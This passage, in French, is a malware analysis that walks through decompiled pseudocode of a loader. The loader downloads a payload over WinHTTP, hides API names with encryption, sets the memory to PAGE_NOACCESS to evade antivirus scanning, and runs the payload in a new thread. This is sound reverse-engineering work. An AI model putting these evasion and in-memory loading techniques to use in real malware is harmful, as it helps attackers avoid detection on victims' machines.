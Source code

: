 Juste après, il lit le contenu de la réponse HTTP et le place dans la zone mémoire nouvellement allouée :

```c
GetEncryptedDataOf_WinHttpReadData(&var_4d9, &var_4d8);
void* name_WinHttpReadData = DecryptData_8(&var_4d8);
void var_509;
void var_508;
GetEncryptedDataOf_winhttp_10(&var_509, &var_508);
void* name_winhttp_9;
int64_t r8_11;
name_winhttp_9 = DecryptData_4(&var_508);
void* WinHttpReadData = ResolveFunction(name_winhttp_9, name_WinHttpReadData, r8_11, r9_7);
int64_t r9_9 = WinHttpReadData(hRequest, *(uint64_t*)allocated_memory_space, (uint64_t)size, &var_4b8); 
```

> On suppose que c'est le contenu de la réponse HTTP est un shellcode/script qui va permettre de charger la dernière DLL.

Après cela, la connexion avec le serveur est fermée à l'aide de `WinHttpCloseHandle`. Et le programme va lancer un nouveau thread dans lequel le script sera lancé.

### Exécution du script

Avant de créer le thread, le programme va tout d'abord modifier les protections de l'espace mémoire où est le script :

```c
GetEncryptedDataOf_NtProtectVirtualMemory(&var_59, &var_58);
void* name_NtProtectVirtualMemory = DecryptData_9(&var_58);
void var_81;
void var_80;
GetEncryptedDataOf_ntdll(&var_81, &var_80);
void* name_ntdll;
int64_t r8_1;
name_ntdll = GetDecrypted_ntdll(&var_80);
int64_t var_350;
void var_34;
ResolveFunction(name_ntdll, name_NtProtectVirtualMemory, r8_1, r9_1)(-1, &payload_base_address, &payload_size, 1, &var_34, var_350);
```

Dans ce code, la protection va être mise à `PAGE_NOACCESS`, cela permet au maliciel d'éviter la détection par Windows Defender's (par exemple). La plupart des antivirus ne regardent pas les pages mémoires avec cette permission. 

La création du thread se déroule comme suit :

```c
GetEncryptedDataOf_CreateThread(&var_a9, &var_a8);
void* name_CreateThread = DecryptData_10(&var_a8);
void var_d9;
void var_d8;
int64_t r9_2 = GetEncryptedDataOf_kernel32_3(&var_d9, &var_d8);
void* name_kernel32;
int64_t r8_3;
name_kernel32 = DecryptData_2(&var_d8);
void* CreateThread = ResolveFunction(name_kernel32, name_CreateThread, r8_3, r9_2);
var_350 = 0;
void* var_358_1;
(uint32_t)var_358_1 = 4;
int64_t hThread = CreateThread(0, 0, allocated_memory_space, 0, var_358_1, 0);
```

